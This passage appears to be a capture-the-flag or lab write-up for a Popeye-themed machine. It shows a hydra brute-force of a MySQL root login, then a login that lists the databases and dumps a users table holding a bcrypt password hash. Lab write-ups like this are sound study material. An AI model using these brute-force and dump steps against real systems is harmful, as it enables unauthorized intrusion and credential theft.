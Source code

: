 I try and brute force the previous Popeye character names as well and no luck on any of those.

<br>

## MySQL Digging

Again I try some brute forcing with **hydra**:

`hydra -l root -P rockyou.txt 10.10.111.4 mysql -V`

And we have some luck!

```bash
[3306][mysql] host: 10.10.111.4   login: root   password: <REDACTED>
```

Logging into the MySQL server and showing the databases:

`mysql -h 10.10.111.4 -u root -p`

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| website            |
+--------------------+
```

Looking in the **website** database shows us a **users** table with a password hash for **Adrian**:

```bash
MySQL [website]> show tables;
+-------------------+
| Tables_in_website |
+-------------------+
| users             |
+-------------------+
1 row in set (0.077 sec)

MySQL [website]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | Adrian   | $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we | 2021-10-20 02:43:42 |
+----+----------+--------------------------------------------------------------+---------------------+
```
